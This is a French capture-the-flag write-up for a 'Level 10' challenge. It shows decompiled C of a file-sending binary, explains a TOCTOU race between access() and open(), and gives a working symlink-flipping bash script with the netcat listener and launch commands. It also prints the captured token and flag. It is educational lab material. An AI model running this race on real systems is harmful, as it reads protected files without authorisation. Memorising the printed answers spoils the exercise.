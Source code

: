 ## Level 10:

Plus complique ici  :
```c
int32_t main(int32_t argc, char** argv, char** envp)
{
    char const* const var_1060;
    int32_t* esp = &var_1060;
    void* gsbase;
    int32_t var_14 = *(gsbase + 0x14);
    if (argc <= 2)
    {
        var_1060 = "%s file host\n\tsends file to ho…";
        printf("%s file host\n\tsends file to ho…", *argv);
        var_1060 = 1;
        exit(1);
        /* no return */
    }
    int32_t eax_5 = argv[1];
    int32_t eax_7 = argv[2];
    var_1060 = argv[1];
    int32_t eax_29;
    if (access(var_1060, 4) != 0)
    {
        var_1060 = "You don't have access to %s\n";
        eax_29 = printf("You don't have access to %s\n", eax_5);
    }
    else
    {
        var_1060 = "Connecting to %s:6969 .. ";
        printf("Connecting to %s:6969 .. ", eax_7);
        var_1060 = stdout;
        fflush(var_1060);
        var_1060 = 2;
        int32_t eax_12 = socket(2, 1, 0);
        int32_t var_18 = 0;
        int32_t var_14_1 = 0;
        int32_t var_10_1 = 0;
        int32_t var_c_1 = 0;
        var_18 = 2;
        char* var_1028;
        in_addr_t var_14_2 = inet_addr(var_1028);
        *var_18[2] = htons(0x1b39);
        char const* const var_1048;
        esp = &var_1048;
        int32_t var_101c;
        if (connect(eax_12, &var_18, 0x10) == 0xffffffff)
        {
            var_1048 = "Unable to connect to host %s\n";
            printf("Unable to connect to host %s\n", var_101c);
            var_1048 = 1;
            exit(1);
            /* no return */
        }
        char* var_1018;
        var_1048 = var_1018;
        if (write(var_1048, ".*( )*.\n", 8) == 0xffffffff)
        {
            var_1048 = "Unable to write banner to host %…";
            printf("Unable to write banner to host %…", var_101c);
            var_1048 = 1;
            exit(1);
            /* no return */
        }
        var_1048 = "Connected!\nSending file .. ";
        printf("Connected!\nSending file .. ");
        var_1048 = stdout;
        fflush(var_1048);
        char* var_1020;
        var_1048 = var_1020;
        int32_t eax_21 = open(var_1048, 0);
        if (eax_21 == 0xffffffff)
        {
            var_1048 = "Damn. Unable to open file";
            puts("Damn. Unable to open file");
            var_1048 = 1;
            exit(1);
            /* no return */
        }
        var_1048 = eax_21;
        void var_100c;
        ssize_t eax_23 = read(var_1048, &var_100c, 0x1000);
        if (eax_23 == 0xffffffff)
        {
            var_1048 = *__errno_location();
            char* eax_26 = strerror(var_1048);
            var_1048 = "Unable to read from file: %s\n";
            printf("Unable to read from file: %s\n", eax_26);
            var_1048 = 1;
            exit(1);
            /* no return */
        }
        var_1048 = var_1018;
        write(var_1048, &var_100c, eax_23);
        var_1048 = "wrote file!";
        eax_29 = puts("wrote file!");
    }
    if (esp[0x413] == *(gsbase + 0x14))
    {
        return eax_29;
    }
    __stack_chk_fail();
    /* no return */
}
```

Le main nous apprend 2 choses : 
- On cherche une connection sur le port 6969    
(donc on doit lancer une connection avec ``` nc -lk 6969```)
- On utilise access avant de read, donc on peut faire un TOCTOU (Time Of Check to Time Of Use)

voici un petit script pour mettre ca en place :
```script.sh
#!/bin/bash

# Nom du lien symbolique
LINK="/tmp/my_link"

# Fichier autorisé
FILE1="/tmp/test"

# Fichier protégé
FILE2="/home/user/level10/token"

# Boucle infinie pour changer le lien
while true; do
    ln -sf "$FILE1" "$LINK"
    ln -sf "$FILE2" "$LINK"
done
```
Il faut au prealable creer test (dans /tmp) et donner les droits d'exec au script.

Puis lancer : ```/tmp/script.sh & ./level10 /tmp/my_link 127.0.0.1```

Avec un peu de chance (timing) ca donnera le token : ```woupa2yuojeeaaed06riuj63c```

feulo4b72j7edeahuete3no7c